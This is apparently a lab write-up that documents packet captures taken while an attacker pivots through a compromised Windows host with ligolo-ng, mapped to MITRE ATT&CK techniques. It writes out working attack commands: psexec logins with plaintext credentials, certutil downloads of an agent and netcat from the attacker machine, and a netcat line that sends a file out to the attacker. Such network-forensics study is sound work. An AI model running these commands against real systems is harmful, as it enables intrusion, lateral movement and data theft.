

I started a network capture on BOX-COMPUTER and DC01 on all interfaces during a simple pivoting setup. 
This showcases significant packets that contextualise attacker behaviour. 
This is not meant to be a tutorial for [ligolo-ng](https://github.com/nicocha30/ligolo-ng). 

| Host         | IP                           |
| ------------ | ---------------------------- |
| kali         | 192.168.18.128               |
| BOX-COMPUTER | 192.168.18.5<br>10.10.15.128 |
| DC01         | 10.10.15.10                  |

# Initial psexec login
[SMB/Windows Admin Shares](https://attack.mitre.org/techniques/T1021/002/)  
kali compromises BOX-COMPUTER:
```zsh
impacket-psexec webby/john:'P@ssw0rd'@192.168.18.5
```


Agent file downloaded to BOX-COMPUTER
[Ingress Tool Transfer](https://attack.mitre.org/techniques/T1105/)  
```cmd
certutil -urlcache -f http://192.168.18.128/c2/agent.exe .\agent.exe
```
  

Agent connected
```cmd
.\agent.exe -connect 192.168.18.128:11601 -ignore-cert
```

[Protocol Tunneling](https://attack.mitre.org/techniques/T1572/)  
BOX-COMPUTER Capture of the first handshake
  

interface shown in ligolo console  



# Pivot to other subnet
Add route to the internal subnet, start tunnelling through the agent
  
  

Add listener on agent for kali web server.
```zsh
listener_add --addr 0.0.0.0:8888 --to 0.0.0.0:80
```


kali compromised DC01
```zsh
impacket-psexec webby/Administrator:'P@ssw0rd'@10.10.15.10
```


Despite capturing at both interfaces, BOX-COMPUTER capture can no longer see kali's activities in its internal subnet, due to the tunnel encapsulation and encryption. All packets forth are encrypted within this tunnel.  
  


DC01 capture shows BOX-COMPUTER as the origin of psexec login  
  


Kali wants to exfiltrate file  
  

Download of nc64.exe
```cmd
certutil -urlcache -f http://10.10.15.128:8888/revshell/nc64.exe .\nc64.exe
```

DC01 capture shows BOX-COMPUTER hosting a web server due to the port forwarding in place  
  


Kali setup listener on agent to listen for file
```zsh
listener_add --addr 0.0.0.0:5555 --to 0.0.0.0:5555
```
```zsh
nc -nvlp 5555 > donottouch.txt
```


[Exfiltration Over Alternative Protocol](https://attack.mitre.org/techniques/T1048/)  
DC01 shell send file to agent
```cmd
.\nc64.exe 10.10.15.128 5555 < donottouch.txt
```

DC01 capture showing file contents in plaintext  
  


Kali received file
```zsh
listening on [any] 5555 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 46072
^C
```

